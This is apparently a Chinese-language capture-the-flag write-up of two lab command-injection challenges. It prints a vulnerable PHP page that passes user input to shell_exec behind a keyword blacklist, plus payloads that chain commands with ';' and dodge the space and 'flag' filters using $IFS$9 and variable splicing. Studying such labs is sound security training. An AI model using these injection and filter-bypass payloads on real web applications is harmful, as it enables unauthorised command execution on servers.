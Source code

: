 ### [GXYCTF 2019]Ping Ping Ping

可以用`;`同时执行指令，ls发现了两个文件

![image-20250304215448680](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250304215448680-20250502174818-vwsecs2.png)

用`cat`查找`index.php`

```php
<?php
	if(isset($_GET['ip'])){
		$ip = $_GET['ip'];
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			print_r($match);
			print($ip);
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "";
		print_r($a);
	}
	?>
```

发现flag被过滤的很彻底

尝试过用变量拼接，但是一直失败

```
?ip=;b=ag;cat$IFSfa$b.php
```

后来看wp发现好像是空格绕过的问题，替换成undefined后就成功了

```
?ip=;b=ag;cat$IFS$9fl$b.php
```

### [ACTF2020 新生赛]Exec

这题是命令执行，没有过滤`;`号，直接一路找就行

```bash
127.0.0.1 ; cd ../../../ ; cat flag
```
